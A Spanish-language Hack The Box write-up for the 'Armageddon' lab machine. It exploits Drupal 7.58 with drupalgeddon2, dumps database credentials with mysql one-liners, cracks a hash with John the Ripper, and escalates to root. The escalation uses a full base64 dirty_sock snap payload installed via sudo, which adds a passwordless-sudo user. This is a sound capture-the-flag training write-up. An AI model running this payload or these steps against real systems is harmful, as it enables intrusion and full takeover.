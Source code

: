 ```yaml
---
title: "HTB - Armagedon"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/armagedon.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | bertolis
Dificultad | Fácil
Liberación | 27 Marzo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.10.233 solo encontramos que está abierto el 80
(web)

```
# Nmap 7.91 scan initiated Sun May 16 20:18:43 2021 as: nmap -p 22,80 -sSC -oN Nmap.txt
10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.23s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
|  2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Armageddon | Armageddon
# Nmap done at Sun May 16 20:18:52 2021 -- 1 IP address (1 host up) scanned in 9.00 seconds
```

Empezamos a hacer reconocimiento de la web con whatsweb y nos damos cuenta que es un
drupal, y con ayuda de robots.txt podemos ver el CHANGELOG.txt nos damos cuenta que es un drupal
v. 7.58.

Con searchxploit nos damos cuenta que hay un exploit en Metasploit llamado
**exploit/unix/webapp/drupal_drupalgeddon2** que nos permite obtener la 1° shell

![]()

## 1° Shell

Revisamos la carpeta sites y de ahí se busca los datos de la conexión a la base de datos que se
encuentra en /var/www/html/sites/default/settings.php y vemos que son usuario drupaluser y
password CQHEy@9M*m23gBVj, el problema es que tenemos una shell muy básica por lo que nos
obliga a usar el siguiente script para enumerar la BD.

```
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

Para así obtener los datos de *brucetherealadmin* y obtener el hash de su clave. Con la
ayuda de john the ripper y utilizando el diccionario rockyou obtenemos la clave booboo.

```
[brucetherealadmin@armageddon ~]$ john pass --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

[brucetherealadmin@armageddon ~]$ john pass —show
?:booboo

1 password hash cracked, 0 left
```

## Shell Usuario

Con la clave obtenida podemos ingresar mediante ssh. Una vez adentro podemos leer la flag de
usuario.

Lo primero que debemos ver es si tenemos algun permiso de sudoer con sudo -l, y nos damos
cuenta que tenemos permiso para /usr/bin/snap install *, por lo que buscamos si tenemos alguna
forma de escalar privilegios.

Investigando vemos que podemos crear nuestra propia aplicación snap usando el proyecto
disrty_socket, lo que generará un usuario con escalada de privilegios locales.

```
[brucetherealadmin@armageddon ~]$ python -c "print
('aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAA
AAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1
daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3
Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc2
9jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHkt
c29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOi
AnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFt
ZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP
8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET
/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8
BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZ
ecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAA
AAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'+ 'A' * 4256
+ '==')" | base64 -d > racso.snap
sudo snap install racso.snap —devmode
```

## Root Shell

Con el usuario dirty_socket creado (dirty_sock:dirty_sock) utilizamos sudo su para acceder
como root y obtener la flag.

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
Contraseña:
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]#
````

![Racso](https://www.hackthebox.com/badge/image/159593)